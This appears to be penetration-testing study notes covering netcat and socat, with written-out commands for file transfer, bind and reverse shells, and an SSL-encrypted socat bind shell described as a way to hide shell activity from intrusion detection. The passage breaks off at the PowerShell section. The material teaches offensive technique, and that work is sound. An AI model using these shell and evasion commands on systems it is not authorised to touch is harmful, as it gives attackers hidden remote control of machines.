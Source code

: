 # PRACTICAL TOOLS
+ Modern security professional uses various tools but there may be limited ones in target system after gaining access
+ So we learn how to deliver our tools to target machine and so on...

# 1 - NETCAT
+ one of original tools for penetration testers
+ It reads and writes data through network using TCP/UDP protocols

## 1.1 - CONNECTING TO A TCP/UDP PORT
+ netcat can run in client/server mode
+ We can connect to remote server using IP/PORT of the server

```bash
# Connect to server assigned <DESTINATION IP> with port <PORT>
nc -n -v <DESTINATION IP> <PORT>
# -n prevents name resolution and -v is verbose mode
```

## 1.2 - LISTENING ON A TCP/UDP PORT
+ Usefull for recieving in network connections
+ Making a chat server using netcat

```bash
# server for listening
nc -lvnp <PORT>
# -l is listening mode
# -v is verbose mode
# -n is no name resolution mode
# -p is specified port

# client
nc <IP ADDRESS> <PORT>

# After connecting enter text to chat
```


## 1.3 - LISTENING ON A TCP/UDP PORT
+ We can transfer files using netcat like server/client chat example with some minor differences
+ We should guess when the transfer is done based on file size
+ We can confirm that the file is transfered successfully by calculating sha256 hash

```bash
# Server which recieves the file
nc -lvnp <PORT> > /path/to/file

# Client which sends the file
nc <IP ADDRESS> <PORT> < /path/to/file
```

## 1.4 - REMOTE ADMINISTRATION WITH NETCAT
+ netcat has command redirection
+ It can redirect input/output of an executable to a TCP/UDP port

![01](./images/01.png)

Bob is running Windows and Alice is running Linux\
In first scenario Alice wants to connect to Bob's machine and do stuff

**netcat bind shell scenario**
+ Bob starts netcat as server and bind `cmd.exe` to port 4444
+ netcat bind `cmd.exe` to port 4444 and redirect input/output/error of `cmd.exe` to port 4444
+ So anyone connecting to Bob's IP address on port 4444 wil be prompted `cmd.exe` and his WIndows comand prompt shell

```bash
# Bob's Windows machine as a server
nc -lvnp 4444 -e cmd.exe

# Alice's Linux machine as a client
nc -nv <Bob IP> 4444
# this will result Bob's computer cmd.exe
```


![02](./images/02.png)
In second scenario Bob wants to connect to Alice's computer and do stuff
**netcat reverse shell scenario**
+ First Bob starts netcat on port 4444 on his Windows machine
+ Alice can send reverse shell from her Linux machine to Bob

```bash
# Bob's Windows machine as a server
nc -lvnp 4444

# Alice's Linux machine as a client
nc -nv <Bob IP> 4444 -e /bin/bash
# this will result reverse shell from Alice's computer to Bob on port 4444
```

+ Take some time to read about **bind**/**reverse** shell scenario

# 2 - SOCAT
+ Establish two bidirectional byte streams to transfer data
+ similar to netcat but has additional features
+ We can estanlish connection and connect to remote host like this: 

```bash
socat - TCP:10.11.0.22:110
# - indicates transfer data between stdin and remote host
# TCP is the transfer protocol
# 10.11.0.22 is the remote host IP address
# 110 is the remote port number
```

+ We can start listening and fire up a server like this:

```bash
socat TCP4-LISTEN:10001 STDOUT
# TCP4-LISTEN is the transfer protocol in listen mode
# 10001 is listening port number
# STDOUT is for redirecting stdout for bidirectional chat
```

## 2.1 - SOCAT FILE TRANSFERS
+ Let's assume Alice wants to transfer a file named `secrets.txt` to Bob using socat
+ Alice  should be server and Bob should be client

```bash
# Server-side for transfering file by Alice
# fork indicates creating a child process
# file indicates reading input from file secrets.txt 
socat TCP4-LISTEN:10001,fork file:secrets.txt 

# Client-side for receiving file by Bob
socat TCP4:10.11.0.4:10001 file:receeved_secrets.txt,create
# create indicates creating and redirecting output to the file receeved_secrets.txt
```


## 2.2 - SOCAT REVERSE SHELLS
+ Bob will start the listener on port 10001 and Alice will connect to it and gives him a reverse shell

```bash
# Bob's side as listener
# -d -d is to increase verbosity
socat -d -d TCP4-LISTEN:10001 STDOUT


# Alice's side
# EXEC option like -e option in netcat
socat TCP4:10.11.0.22:10001 EXEC:/bin/bash
```


## 2.3 - SOCAT ENCRYPTED BIND SHELLS
+ We will use Encryption to hide shell activities and hide it from intrusion detection systems (IDS)
+ We will use Secure Sockets Layer protocol (SSL) to encrypt out shell
+ We will first generate a self-signed SSL certificate by using `openssl` command

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
# -req and -x509 create self-signed certificate
# -newkey will generate new private key
# rsa:2048 will use RSA encryption with 2048 bit key length
# -nodes will store the private key unencrypted
# -keyout file.key will save the key to a file
# -days indicates validity period in days
# -out will save the certificate to a file
```

+ After creating the certificate we will convert them to a format that socat can accept

```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

+ Now Let's create the encrypted socat listener at Alice's side

```bash
sudo socat OPENSSL_LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
# OPENSSL_LISTEN:443 option creates SSL listener on port 443
# cert option specify our certificate file
# verfiy=0 disable SSL verifications
# fork spawns a child process when a connection made to the listener
# EXEC will execute /bin/basha and redirect its output to remote host
```

+ Now Let's connect to Alice's bind shell from Bob's side

```bash
socat - OPENSSL:10.11.0.4:443,verify=0
# - indicates transfer data between stdin and remote host
# OPENSSL establishes remote SSL connection to Alice's listener 
# verify=0 disable SSL certificate verification
```

# 3 - POWERSHELL AND POWERCAT
